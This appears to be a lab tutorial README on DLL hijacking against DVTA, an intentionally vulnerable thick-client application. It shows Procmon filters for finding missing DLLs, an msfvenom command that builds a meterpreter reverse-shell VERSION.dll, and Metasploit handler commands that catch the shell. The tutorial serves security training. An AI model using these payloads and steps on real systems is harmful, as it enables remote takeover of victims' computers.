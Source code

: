 # DLL Hijacking

DLL files contains executable code that can be used by other applications. When an application needs to use this DLL file, it has to search for it if the absolute path is not provided. If an attacker replaces his own DLL file with the name that the application is searching for, then the application loads the attacker’s DLL and executes the malicious code. This is known as DLL Hijacking Attack.

## Tools Required:
- VMWare, Procmon (Process Monitor), MsfVenom, Metasploit, Apache Server

## Lab Setup
- Create two virtual machine:
  - ***Windows OS*** for executing exe application *(Victim Machine)*
    - Download [**DVTA**](https://github.com/srini0x00/dvta) Vulnerable Thick Client Application developed in C# .NET for learning purpose.  
  - ***Kali Linux*** for obtain system access using reverse shell handler *(Attacker Machine)*

## POC

> ### **Step-1: Identifying vulnerable DLLs that we can Hijack.**
 - Install Applciation on Windows System >> Start Application >> Open Procmon tool 
 - Apply three filters in Procmon (Menu Filter -> Filter)
```
   1. Process Name = contains = "Select Your Application Name" -> [ Add ]
   2. Path         = contains = ".dll"                         -> [ Add ] 
   3. Result       = contains = "NAME NOT FOUND"               -> [ Add ]
     
      Click [ OK ] for apply filters.
```
![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/1.jpg)
  
> ### **Step-2: Closed the application and Re-open that application so all the process according to filter will show in** ***Procmon***  

> ### **Step-3: Now find the Dlls which are trying to load from current working application but is not available** ***(e.g: VERSION.DLL)***

![Procmon](https://github.com/NayanDZ/DLLHijacking/blob/main/3.jpg) 
            Application is trying to load VERSION.DLL but not able to find in to application directory.
            
> ### **Step-4: Next step is create malicious DLL named VERSION.DLL using** ***MsfVenom (Kali Linux)***

``` 
   $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.252.130 LPORT=8888 -f dll > VERSION.dll 
```
![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/4.jpg)

> ### **Step-5: Now create reverse shell handler with msfconsole**

```
   $ sudo msfconsole
      
   msf > use exploit/multi/handler

   msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
   payload => windows/meterpreter/reverse_tcp

   msf exploit(multi/handler) > set LHOST 192.168.252.130  (Replace your attacker machine IP i.e Kali Linux IP)
   LHOST => 192.168.252.130

   msf exploit(multi/handler) > set LPORT 8888
   LPORT => 8888

   msf exploit(multi/handler) > exploit  
```
   Done..! 
   
![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/5.jpg)

> ### **Step-6: Reverse shell handler created successfully, Now paste malicious DLL(which we created through Step-4) in to the application directory & launch the application**

![MsfVenom](https://github.com/NayanDZ/DLLHijacking/blob/main/6.jpg)

   *As you can see application is trying to load the malicious DLL without checking it and we got system reverse shell.*

